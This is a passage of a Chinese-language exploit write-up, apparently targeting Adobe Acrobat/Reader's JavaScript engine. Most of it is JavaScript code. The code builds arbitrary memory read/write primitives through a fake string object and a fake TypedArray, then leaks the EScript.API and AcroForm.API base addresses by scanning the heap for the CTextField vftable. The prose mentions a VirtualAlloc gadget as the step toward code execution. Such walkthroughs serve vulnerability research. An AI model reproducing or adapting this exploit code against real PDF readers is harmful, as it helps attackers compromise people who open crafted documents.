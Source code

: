 ```
DV = DataView(SPRAY[SPRAY_IDX])
function myread(addr) {
    //change fake string object's buffer to the address we want to read.
    DV.setUint32(4, addr, true)
    return s2h(T[2])
}
```

同样，为了实现任意写入，我创建了一个伪造的TypedArray。我只是复制WRITE_ARRAY内容并更改其SharedArrayRawBuffer指针。

```
/* create aaw primitive */
for(var i=0; i&lt;32; i++) {DV.setUint32(i*4+16, myread(WRITE_ARRAY_ADDR+i*4), true)} //copy WRITE_ARRAY
FAKE_ELES[6] = GUESS+0x10
FAKE_ELES[7] = 0xffffff87
function mywrite(addr, val) {
    DV.setUint32(96, addr, true)
    T[3][0] = val
}
//mywrite(0x200000C8, 0x1337)
```



## 获得代码执行

使用任意的读/写原语，我能够泄漏EScript.API的基址在TypedArray对象的头部。在EScript.API内部有一个非常方便的gadget 可以调用VirtualAlloc。

```
//d8c5e69b5ff1cea53d5df4de62588065 - md5sun of EScript.API
ESCRIPT_BASE = myread(WRITE_ARRAY_ADDR+12) - 0x02784D0 //data:002784D0 qword_2784D0    dq ? 
console.println('ESCRIPT_BASE: '+ ESCRIPT_BASE.toString(16))
assert(ESCRIPT_BASE&gt;0)
```

接下来，我泄漏了AcroForm.API的地址基址和CTextField（0x60大小）对象的地址。首先使用addField分配一批CTextField对象，然后创建一个也具有0x60大小的字符串对象，泄漏此字符串（MARK_ADDR）的地址。我们可以放心地假设这些CTextField对象将位于MARK_ADDR后面。最后我遍历堆以查找CTextField::vftable。

```
/* leak .rdata:007A55BC ; const CTextField::`vftable' */
//f9c59c6cf718d1458b4af7bbada75243
for(var i=0; i&lt;32; i++) this.addField(i, "text", 0, [0,0,0,0]);
T[4] = STR_60.toLowerCase()
for(var i=32; i&lt;64; i++) this.addField(i, "text", 0, [0,0,0,0]);
MARK_ADDR = myread(FAKE_ELES[8]+4)
console.println('MARK_ADDR: '+ MARK_ADDR.toString(16))
assert(MARK_ADDR&gt;0)
vftable = 0
while (1) {
    MARK_ADDR += 4
    vftable = myread(MARK_ADDR)
    if ( ((vftable&amp;0xFFFF)==0x55BC) &amp;&amp; (((myread(MARK_ADDR+8)&amp;0xff00ffff)&gt;&gt;&gt;0)==0xc0000000)) break
}
console.println('MARK_ADDR: '+ MARK_ADDR.toString(16))
assert(MARK_ADDR&gt;0)

/* leak acroform, icucnv58 base address */
ACROFORM_BASE = vftable-0x07A55BC
console.println('ACROFORM_BASE: ' + ACROFORM_BASE.toString(16))
assert(ACROFORM_BASE&gt;0)
```
